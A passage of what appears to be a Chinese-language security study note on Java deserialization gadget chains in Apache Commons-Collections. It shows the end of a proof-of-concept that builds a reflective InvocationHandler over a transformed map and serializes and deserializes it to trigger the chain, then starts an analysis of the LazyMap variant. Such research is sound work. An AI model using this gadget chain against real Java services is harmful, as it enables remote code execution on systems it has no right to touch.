 ```java
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(invocationHandler);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/11.png" alt="">

# Commons-Collections1-LazyMap 分析
> 核心点在`LazyMap#get`，`LazyMap`在没有`key`时会尝试调用`this.factory.transform`方法，而`this.factory`可以指定为`Transformer`对象，而且`transform`方法参数会被忽略掉，因此只需要寻找一个调用了`LazyMap.get`的方法
